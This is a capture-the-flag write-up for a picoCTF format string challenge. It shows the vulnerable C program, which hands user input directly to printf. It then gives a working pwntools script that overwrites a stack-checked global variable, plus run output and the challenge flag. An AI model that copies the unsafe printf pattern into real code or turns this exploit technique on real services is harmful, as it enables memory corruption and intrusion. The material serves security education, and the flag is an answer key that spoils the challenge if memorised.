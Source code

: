 # format string 2
## Description
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc rhea.picoctf.net 55067
## Hint
- pwntools are very useful for this problem!
## Solution
- We're given [vuln](./vuln) and [vuln.c](./vuln.c) files. Looking at the source code:
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
- We can see that the program reads input from the user and prints it back. If the value of `sus` is changed to `0x67616c66`, the flag will be printed. Converting `0x67616c66` to ASCII gives `galf`. This is `flag` in little-endian format. 
- After going through a bit of pwntools' documentation, I found [this](https://docs.pwntools.com/en/stable/fmtstr.html) page. This automates the process of exploiting format string vulnerabilities. Here's the basic example code:
```python
program = pwnlib.data.elf.fmtstr.get('i386')
def exec_fmt(payload):
    p = process(program)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
p = process(program, stderr=PIPE)
addr = unpack(p.recv(4))
payload = fmtstr_payload(offset, {addr: 0x1337babe})
p.sendline(payload)
print(hex(unpack(p.recv(4))))
```
- We need the address of `sus`, I used `objdump -d -M intel vuln` and found the address to be `0x404060`.
- Modifying the code to suit our needs, I wrote the following [script](<./format string 2.py>):
```python
from pwn import *
context.binary = ELF('./vuln')
p = remote('rhea.picoctf.net', 55067)
def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 55067)
    p.sendline(payload)
    return p.recvall()
autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
p.sendline(payload)
flag = p.recvall()
print("Flag: ", flag)
```
- It uses `FmtStr(exec_fmt)` to automatically determine the offset where the format string is written. It then uses `fmtstr_payload(offset, {0x404060: 0x67616c66})` to write the value `0x67616c66` to the address `0x404060`.
- Running the script we get the flag: 
```
python3 "format string 2.py"
[!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
[*] '/Users/Dhruv1/Desktop/playground/SP/Taskphase/Cryptonite/cryptonite_taskphase_dhruv/STP_2/Binary_Exploitation/PicoCTF/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (194B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (191B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (200B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (191B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (195B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (200B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (200B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (189B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (200B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (200B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (200B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (191B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (200B)
[*] Closed connection to rhea.picoctf.net port 55067
[+] Opening connection to rhea.picoctf.net on port 55067: Done
[+] Receiving all data: Done (204B)
[*] Closed connection to rhea.picoctf.net port 55067
[*] Found format string offset: 14
[+] Receiving all data: Done (594B)
[*] Closed connection to rhea.picoctf.net port 55067
Flag:  b"You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\nHere's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@\nI have NO clue how you did that, you must be a wizard. Here you go...\npicoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}"
```
- The flag is `picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}`.